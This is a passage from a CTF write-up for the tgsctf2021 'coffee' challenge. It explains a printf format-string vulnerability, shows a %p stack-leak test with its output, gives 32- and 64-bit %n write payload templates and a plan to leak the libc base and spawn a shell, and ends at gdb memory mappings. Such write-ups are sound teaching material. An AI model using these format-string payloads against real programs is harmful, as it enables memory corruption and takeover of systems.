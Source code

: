 first idea for the solution, FSB([printf format string](https://en.wikipedia.org/wiki/Printf_format_string)) appear in my mind because of ***printf(buf)***  
after tried the FSB payload, some of address appear in the output. the first parameter is **6th**
```shell
~/Desktop/CTF/tgsctf2021/coffee$ ./coffee 
aaaaaaaa%p,%p,%p,%p,%p,%p,%p   
aaaaaaaa0xa,(nil),(nil),0x1c,0xffffffffffffff88,0x6161616161616161,0x70252c70252c7025bye
```

---  

**FSB**  

2 key point of FSB 
1. Type filed of printf, **%n Print nothing, but writes the number of characters written so far into an integer pointer parameter**
2. specify the number of parameter, **n\$ n is the number of the parameter to display using this format specifier**, allowing the parameters provided to be output multiple times, using varying format specifiers or in different orders. If any single placeholder specifies a parameter, all the rest of the placeholders MUST also specify a parameter.  

the 32bit payload would be:
```c
[padding][address]%[value]c%[index]$[write_type]
example: 0x11111111%0xc0ffee-len(0x11111111)c%6$n
```
this payload will assign **0xc0ffee** to the 6th parameter **0x11111111** in the stack
  
64bit is dealing with difference way due to printf will ignore the string after the terminate charter(\x00,\xa0), \x00 usually appear in the address. so we just put the address after the assignment type file
```c
%[value]c%[index]$[write_type][padding][address]
```

---

so the **scanf** and **printf** only run once in the program, we need to make the program loop at least twice.
1. leak the libc base address
2. construct payload to get shell

---

### 1. leak address  

first we have to find the Libc address in the stack.
0x7ffff7deb000-0x7ffff7fae000 are libc address
```shell
(gdb) info proc mappings 
process 199826
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /home/root/Desktop/CTF/tgsctf2021/coffee/coffee
            0x401000           0x402000     0x1000     0x1000 /home/root/Desktop/CTF/tgsctf2021/coffee/coffee
            0x402000           0x403000     0x1000     0x2000 /home/root/Desktop/CTF/tgsctf2021/coffee/coffee
            0x403000           0x404000     0x1000     0x2000 /home/root/Desktop/CTF/tgsctf2021/coffee/coffee
            0x404000           0x405000     0x1000     0x3000 /home/root/Desktop/CTF/tgsctf2021/coffee/coffee
            0x405000           0x426000    0x21000        0x0 [heap]
      0x7ffff7deb000     0x7ffff7ded000     0x2000        0x0 
      0x7ffff7ded000     0x7ffff7e13000    0x26000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.32.so
```